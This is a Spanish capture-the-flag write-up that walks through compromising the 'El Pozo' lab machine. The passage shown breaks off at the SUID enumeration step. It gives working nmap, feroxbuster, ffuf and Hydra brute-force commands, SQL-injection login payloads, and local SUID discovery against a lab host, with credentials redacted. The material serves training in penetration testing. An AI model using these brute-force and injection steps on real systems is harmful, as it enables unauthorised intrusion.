# El Pozo — Auditoría de seguridad

**Objetivo:** `172.17.0.2`  
**Laboratorio:** Whoami-Labs — El Pozo  
**Dificultad:** Hard  
**Fecha:** 13 de noviembre de 2026  
**Analista:** chifay  
**MITRE ATT&CK:** T1190 — Exploit Public-Facing Application  
**NIST CSF:** PR-VAM-001 (Vulnerability Assessment Analyst)

> **Resultado:** compromiso completo de la máquina, desde el formulario web expuesto hasta `root`.  
> **Flag final:** `ElPozo{REDACTED}`

> **Nota de redacción:** este writeup se publica con las contraseñas, el material de clave privada y el contenido de la flag redactados. Los nombres de usuario se conservan para poder seguir la cadena de ataque.

---

## 1. Resumen ejecutivo

El Pozo expone únicamente dos servicios: SSH y una aplicación web PHP con un formulario de login. La fase de enumeración revela un directorio `/docs/` con listado abierto y abundante información que parece crítica (dump SQL, hashes bcrypt, una clave PEM, notas internas y código fuente). Tras verificarlos uno por uno, todos resultan ser **señuelos** (*rabbit holes*): no autentican, no corresponden a la aplicación real o apuntan a servicios que no existen.

El acceso real se consigue combinando dos detalles:

1. El pie de página, en tamaño reducido, acredita el diseño a un alias. Ese alias funciona como contraseña del formulario.
2. El nombre de usuario **`redhorse`** se descubre con fuerza bruta dirigida contra una lista de usuarios comunes.

Dentro del panel aparece un acertijo con referencias al cine de terror y un texto cifrado con César: `irgxg`. El acertijo alude a *The Ring* / *Ringu* (Samara Morgan / Sadako Yamamura, “siete días”); el desplazamiento útil es **6** (número de letras del nombre) y descifra `irgxg` como **`clara`**, que resulta ser una cuenta real del sistema.

A partir de ahí:

- Fuerza bruta SSH contra `clara` → contraseña `[REDACTED]`.
- Enumeración local → binario SUID atípico `/usr/bin/nl`.
- `nl` lee `/home/drowner/.ssh/id_rsa` (clave privada sin passphrase) → acceso como `drowner`.
- `sudo -l` revela `(ALL) NOPASSWD: /bin/su` → escalada directa a `root`.
- Lectura de `/root/flag.txt`.

La cadena completa demuestra que el laboratorio no se rompe por una vulnerabilidad de aplicación sofisticada, sino por **credenciales débiles, un binario SUID innecesario, una clave privada mal protegida y una regla sudo equivalente a root**.

---

## 2. Alcance y metodología

**Alcance:** host `172.17.0.2`, puertos TCP expuestos y servicios asociados. El entorno es un contenedor Docker desplegado con `startlab.sh`; el objetivo final es leer `/root/flag.txt`.

**Metodología aplicada:**

1. Reconocimiento de puertos y servicios.
2. Enumeración web (fuzzing de directorios, archivos y parámetros).
3. Identificación y descarte razonado de señuelos.
4. Fuerza bruta controlada de credenciales web y SSH.
5. Análisis de cifrado clásico para obtener pistas.
6. Enumeración local, abuso de SUID y movimiento lateral.
7. Escalada de privilegios mediante reglas sudo.
8. Documentación de hallazgos, impacto y recomendaciones.

**Herramientas utilizadas:** `nmap`, `feroxbuster`, `ffuf`, `hydra`, `curl`, `lynx`, `sshpass`, `ssh`, `john`, `sed`, `python3`.

> **Nota ética:** todas las pruebas se realizaron exclusivamente contra el laboratorio autorizado `172.17.0.2`. Las credenciales y claves originales pertenecen al entorno de entrenamiento; en esta versión pública aparecen redactadas.

---

## 3. Reconocimiento

### 3.1 Descubrimiento de puertos

Se ejecutó un escaneo completo de los 65.535 puertos TCP:

```bash
nmap -p- --min-rate 2000 -T4 172.17.0.2
```

**Resultado:** solo dos puertos abiertos:

| Puerto | Servicio | Detalle |
|---:|---|---|
| 22/tcp | SSH | OpenSSH 8.4p1 Debian 5+deb11u5 |
| 80/tcp | HTTP | Apache httpd 2.4.66 (Debian) |



No hay base de datos, panel administrativo alternativo ni servicios internos expuestos. Esto descarta de entrada las referencias del señuelo `notes.txt` al puerto `8080` y a MySQL.

### 3.2 Fingerprinting de servicios

```bash
nmap -sCV -p22,80 172.17.0.2
```

Hallazgos relevantes:

- Apache 2.4.66 sobre Debian; título `El Pozo — Acceso`.
- Cookie de sesión `PHPSESSID` **sin flag `HttpOnly`**.
- SSH con autenticación por contraseña habilitada (además de clave pública).
- Sistema Linux, hostname interno `elpozo`.



---

## 4. Enumeración web y reconocimiento de señuelos

### 4.1 La aplicación principal

La raíz presenta un formulario de login muy simple:

- `POST /index.php`
- Campos `username` y `password`.
- Mensaje de error genérico: `Credenciales incorrectas.`



Se probaron payloads básicos de inyección SQL (`' OR '1'='1`, `admin'-- -`, etc.) sin éxito. El formulario compara credenciales en PHP y no refleja errores de base de datos, por lo que la vía prevista es la fuerza bruta.

### 4.2 Fuzzing de directorios

```bash
feroxbuster -u http://172.17.0.2 \
  -w /usr/share/wordlists/dirb/common.txt \
  -x php,txt -r --depth 2 -t 40 --no-state -q
```

El escaneo descubre un directorio `/docs/` con listado abierto y varios archivos “jugosos”.



### 4.3 El directorio /docs

```bash
curl -s http://172.17.0.2/docs/ | grep -oE 'href="[^"]+"' | grep -v '?' | sed 's/href=//'
```

Contenido:

- `database.sql`
- `hash.txt`
- `info_important.txt`
- `labsuser.pem`
- `notes.txt`
- `source/` (aplicación Node.js/Express, Dockerfiles y `initdb.sql`)



### 4.4 Veredicto de los señuelos

| Archivo | Apariencia | Verificación | Conclusión |
|---|---|---|---|
| `database.sql` | Credenciales de `admin`, `clara` y `drowner` | Las tres fallan en el login web | Señuelo |
| `hash.txt` | Hashes bcrypt de `root`, `clara` y `drowner` | `john --format=bcrypt` no obtiene credenciales válidas; el formato es sintético | Señuelo |
| `labsuser.pem` | Clave privada RSA | No autentica contra `root`, `clara` ni `drowner` | Señuelo |
| `notes.txt` | Puerto 8080, `/opt/.vault`, password MySQL | Puerto 8080 cerrado; `/opt/.vault` no existe; MySQL no expuesto | Señuelo |
| `info_important.txt` | URL de federación AWS | Token caducado / ajeno al laboratorio | Señuelo |
| `source/` | Código Node.js, `initdb.sql`, `CTF{...}` | Aplicación distinta a la PHP real; flag placeholder | Señuelo |

Ejemplo de credenciales del dump SQL:



La clave `labsuser.pem` tampoco autentica contra ninguna cuenta:



Las credenciales del dump se prueban explícitamente contra el formulario y **todas fallan**:



**Lección del laboratorio:** la cantidad y verosimilitud de los señuelos invita a quedarse atrapado en `/docs/`. El punto de retorno es la página principal y sus detalles mínimos.

---

## 5. Acceso al panel

### 5.1 El detalle del pie de página

El formulario incluye un pie de página en `font-size: 0.75em` y color gris oscuro que acredita el diseño a un alias. Ese alias, apenas visible, es la pista: se usa como contraseña. El nombre de usuario no aparece en la página, así que se enumeró con una lista de usuarios comunes.

### 5.2 Fuerza bruta de usuario

Para evitar la lentitud del módulo `http-post-form` de Hydra, la enumeración de usuarios se hizo con `ffuf` (mismo resultado, mucho más rápido):

```bash
ffuf -u http://172.17.0.2/index.php -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'username=FUZZ&password=[REDACTED]' \
  -w users_20k.txt -t 200 -fr 'Credenciales incorrectas' -s
```

**Resultado:** `redhorse`



La lista `users_20k.txt` contiene las primeras 20.000 entradas de un diccionario público de nombres de usuario; el usuario válido aparece en ella.

### 5.3 Validación con Hydra

Se confirma la credencial con Hydra:

```bash
hydra -l redhorse -p '[REDACTED]' 172.17.0.2 http-post-form \
  "/index.php:username=^USER^&password=^PASS^:F=Credenciales incorrectas"
```

Resultado:

```text
[80][http-post-form] host: 172.17.0.2   login: redhorse   password: [REDACTED]
```



**Credenciales web:** `redhorse` / `[REDACTED]`.

---

## 6. El acertijo y el cifrado César

Tras autenticarse, `panel.php` muestra un mensaje interceptado y un texto cifrado:

```text
Soy la niña que vivió siete días en la oscuridad.
Mi nombre guarda un secreto:
El número de letras de mi nombre.
El número de vocales que contiene.
Si juntas estos dos números, tendrás la combinación.
¿Cuál es?

Texto cifrado: irgxg
```



### 6.1 Interpretación

La referencia es *The Ring* (El Aro) / *Ringu*: la niña que marca un plazo de **siete días** es **Samara Morgan** (versión estadounidense) o **Sadako Yamamura** (versión japonesa).

- `Samara` → 6 letras, 3 vocales.
- `Sadako` → 6 letras, 3 vocales.

La combinación que sugiere el acertijo es **63** (6 letras, 3 vocales). Sin embargo, un desplazamiento César de 63 equivale a `63 mod 26 = 11`, que **no** produce texto legible:

```text
irgxg  --(shift 11)-->  xgvmv
```

El desplazamiento que sí produce una palabra coherente es **6**, el número de letras del nombre:

```text
i r g x g
-6 -6 -6 -6 -6
c l a r a
```



El resultado es **`clara`**, nombre que ya aparecía en los señuelos. El 3 de las vocales sirve para confirmar el nombre de 6 letras y descartar otras opciones; la clave operativa del cifrado es 6.

> **Observación de auditoría:** el acertijo mezcla la combinación 63 con la clave real 6. Usar 63 directamente no descifra el mensaje; conviene documentar esta ambigüedad porque puede inducir a error a otros analistas.

---

## 7. Movimiento lateral: clara → drowner

### 7.1 Fuerza bruta SSH contra clara

Con el nombre `clara` confirmado, se preparó un diccionario reducido de 100 contraseñas comunes (las primeras entradas de `rockyou.txt` más variantes) y se lanzó Hydra contra SSH:

```bash
head -99 /usr/share/wordlists/rockyou.txt > pass_ssh_top100.txt
echo '[REDACTED]' >> pass_ssh_top100.txt
hydra -l clara -P pass_ssh_top100.txt -t 32 -f ssh://172.17.0.2
```

**Resultado:**

```text
[22][ssh] host: 172.17.0.2   login: clara   password: [REDACTED]
```



El ataque se completó en unos 10 segundos. La contraseña hallada es común y predecible, lo que confirma el riesgo de mantener autenticación SSH por contraseña sin bloqueo de intentos.

### 7.2 Acceso como clara

```bash
sshpass -p '[REDACTED]' ssh -o StrictHostKeyChecking=no clara@172.17.0.2
```

La cuenta `clara` usa `rbash` y un `PATH` restringido a `/home/clara/bin`, con enlaces simbólicos a `cat`, `find`, `id`, `ls`, `nl`, `ssh` y `whoami`. Esto limita la comodidad, pero **no es una frontera de seguridad** si alguno de esos binarios es SUID.



### 7.3 Enumeración de binarios SUID

Dentro de `clara` se buscan binarios SUID en las rutas habituales:

```bash
find /bin /usr/bin /usr/sbin /sbin -perm -4000 -type f
```

Además de los binarios estándar (`su`, `mount`, `passwd`, `sudo`), aparece uno atípico:

```text
/usr/bin/nl
```

